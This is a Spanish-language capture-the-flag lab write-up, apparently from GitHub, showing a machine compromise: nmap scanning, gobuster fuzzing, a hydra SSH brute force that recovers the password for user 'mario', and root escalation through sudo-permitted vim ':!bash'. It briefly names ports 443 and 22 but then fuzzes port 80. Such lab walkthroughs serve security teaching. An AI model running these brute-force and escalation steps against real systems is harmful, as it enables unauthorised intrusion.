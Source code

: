 # Nmap & Fuzzing

## Reconocimiento con Nmap
Comenzamos con el escaneo con **Nmap** para identificar los puertos abiertos en la máquina objetivo.

```sh
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn <IP>
```
![image](https://github.com/ErickAnchundia/Machines-Write-Ups/blob/main/images/Pasted%20image%2020250420150515.png)
<br>


Se identifican **2 puertos abiertos**:
- **HTTPS** (`443`)
- **SSH** (`22`)

## Fuzzing en el puerto 80
Utilizamos **Gobuster** para realizar un fuzzing en el puerto `80` y descubrir rutas ocultas.

```sh
gobuster dir -w /home/kali/WordLists/directory-medium -u http://<IP> -x txt,sql,py,js,php,html
```

![image](https://github.com/ErickAnchundia/Machines-Write-Ups/blob/main/images/Pasted%20image%2020250420150909.png)
<br>
Entre los resultados, encontramos un mensaje dirigido a un usuario llamado **Mario**.

![image](https://github.com/ErickAnchundia/Machines-Write-Ups/blob/main/images/Pasted%20image%2020250420151003.png)
<br>
## Ataque de fuerza bruta por SSH
Probamos un ataque de **fuerza bruta con diccionario** contra el usuario descubierto.

```sh
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://<IP>
```

![image](https://github.com/ErickAnchundia/Machines-Write-Ups/blob/main/images/Pasted%20image%2020250420151934.png)
<br>
Ejecutando el ataque, encontramos que la contraseña es **chocolate**.

## Acceso por SSH y escalada de privilegios
Ingresamos vía **SSH** con las credenciales obtenidas.

```sh
ssh mario@<IP>
```

Una vez dentro, verificamos los permisos con:

```sh
sudo -l
```

Descubrimos que tenemos acceso a ejecutar **vim** con privilegios elevados.

![image](https://github.com/ErickAnchundia/Machines-Write-Ups/blob/main/images/Pasted%20image%2020250420152338.png)
<br>
Aprovechamos **Vim** para abrir una terminal:

```sh
:!bash
```

Desde aquí solicitamos a **vim** que abra otra sesión con privilegios de **root**.

![image](https://github.com/ErickAnchundia/Machines-Write-Ups/blob/main/images/Pasted%20image%2020250420152811.png)
<br>
Y con esto, **ya somos root**.

![image](https://github.com/ErickAnchundia/Machines-Write-Ups/blob/main/images/Pasted%20image%2020250420152835.png)
<br>

